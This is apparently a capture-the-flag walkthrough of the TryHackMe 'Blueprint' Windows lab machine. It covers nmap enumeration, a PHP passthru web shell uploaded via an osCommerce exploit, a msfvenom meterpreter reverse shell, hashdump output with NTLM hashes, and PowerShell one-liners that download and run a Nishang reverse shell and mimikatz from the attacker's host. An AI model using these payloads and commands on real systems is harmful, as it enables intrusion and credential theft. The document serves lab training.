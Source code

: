 ![image](https://github.com/CTF-Walkthroughs/blueprint-walkthrough/assets/97861439/328bebaf-6fbd-4e8b-84dd-e9c9b60fa206)

# blueprint-walkthrough
This is a CTF walkthrough of the machine blueprint on THM

export IP=10.10.51.155
export myIP=10.13.24.71

**ENUMERATION**

Let's kick things off with a fast nmap scan to get a lay of the land.

nmap -F $IP

Nmap scan report for 10.10.85.154
Host is up (0.33s latency).
Not shown: 90 closed tcp ports (conn-refused)
PORT      STATE SERVICE
80/tcp    open  http
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
443/tcp   open  https
445/tcp   open  microsoft-ds
3306/tcp  open  mysql
8080/tcp  open  http-proxy
49152/tcp open  unknown
49153/tcp open  unknown
49154/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 2.63 seconds

Now we'll do a follow-up scan to get more details about open ports, services, and software versions.

nmap -p 80,135,443,3306,8080,49152,49153,49154 -sC -sV -A -T4 $IP

Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-28 23:20 EDT
Stats: 0:01:06 elapsed; 0 hosts completed (1 up), 1 undergoing Script Scan
NSE Timing: About 96.65% done; ETC: 23:21 (0:00:00 remaining)
Nmap scan report for 10.10.85.154
Host is up (0.25s latency).

PORT      STATE SERVICE  VERSION
80/tcp    open  http     Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-IIS/7.5
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: 404 - File or directory not found.
135/tcp   open  msrpc    Microsoft Windows RPC
443/tcp   open  ssl/http Apache httpd 2.4.23 (OpenSSL/1.0.2h PHP/5.6.28)
|_http-title: Index of /
|_http-server-header: Apache/2.4.23 (Win32) OpenSSL/1.0.2h PHP/5.6.28
| tls-alpn: 
|_  http/1.1
| ssl-cert: Subject: commonName=localhost
| Not valid before: 2009-11-10T23:48:47
|_Not valid after:  2019-11-08T23:48:47
|_ssl-date: TLS randomness does not represent time
| http-ls: Volume /
| SIZE  TIME              FILENAME
| -     2019-04-11 22:52  oscommerce-2.3.4/
| -     2019-04-11 22:52  oscommerce-2.3.4/catalog/
| -     2019-04-11 22:52  oscommerce-2.3.4/docs/
|_
| http-methods: 
|_  Potentially risky methods: TRACE
3306/tcp  open  mysql    MariaDB (unauthorized)
8080/tcp  open  http     Apache httpd 2.4.23 (OpenSSL/1.0.2h PHP/5.6.28)
|_http-server-header: Apache/2.4.23 (Win32) OpenSSL/1.0.2h PHP/5.6.28
| http-methods: 
|_  Potentially risky methods: TRACE
| http-ls: Volume /
| SIZE  TIME              FILENAME
| -     2019-04-11 22:52  oscommerce-2.3.4/
| -     2019-04-11 22:52  oscommerce-2.3.4/catalog/
| -     2019-04-11 22:52  oscommerce-2.3.4/docs/
|_
|_http-title: Index of /
49152/tcp open  msrpc    Microsoft Windows RPC
49153/tcp open  msrpc    Microsoft Windows RPC
49154/tcp open  msrpc    Microsoft Windows RPC
Service Info: Hosts: www.example.com, localhost; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_nbstat: NetBIOS name: BLUEPRINT, NetBIOS user: <unknown>, NetBIOS MAC: 027f2be5a1cf (unknown)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 79.26 seconds

Next, let's do a bit of directory busting with gobuster and dirb. We discovered a /catalog/install directory that we can use to install the database and create an admin user.

'oscommerce-2.3.4/catalog/install'

Now we can upload a simple passthrough to allow in-browser command execution. 
**
EXPLOITATION**

Next. let's create a shell.php file with the following contents for our passthru shell:
'<?php passthru($_GET['cmd']); ?>'

And we can upload it using the exploit from searchsploit:
'python 43191.py -u http://10.10.51.155:8080/oscommerce-2.3.4 --auth=admin:admin -f shell.php'

**PROOF OF CONCEPT**

We can test our php passthru shell a simple command like 'whoami'.

**Using Metasploit to convert RCE to a fully interactive shell**

First let's create a payload.

'msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.13.24.71 LPORT=7777 -f exe > shell.exe'

'msfconsole'

Now we can let it rip and catch the shell with the web_delivery module.

And BOOM! We have a meterpreter session on our target. We can issue a 'hashdump' command to grab all the user hashes.

msf6 exploit(multi/script/web_delivery) > sessions -i 1
[*] Starting interaction with 1...

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > hashdump
Administrator:500:aad3b435b51404eeaad3b435b51404ee:549a1bcb88e35dc18c7a0b0168631411:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Lab:1000:aad3b435b51404eeaad3b435b51404ee:30e87bf999828446a1c1209ddde4c450:::
meterpreter >

**Using Crackstation to quickly crack our hash**
googleplus

**ROOT FLAG**
root.txt
THM{ae--------REDACTED-----------ee}


**OPTIONAL ALTERNATIVE METHOD TO CONVERT TO A SHELL**

Nishang Powershell:
1. download Invoke-PowerShellTcp.ps1

2. modify the script to add the command to the end of the script

'Invoke-PowerShellTcp -Reverse -IPAddress 10.13.24.71 -Port 80'

3. host an http server on port 80

4. Download the file to the target machine and run it:

'powershell iex(new-object net.webclient).downloadstring('http://10.13.24.71:8000/ips88.ps1')'

Now that we have a shell -let's grab the hashed NTLM for user Lab with mimikatz!

download it to my attacker machine and serve it up using python

powershell iex(new-object net.webclient).downloadstring('http://10.13.24.71:8000/mimikatz.exe')


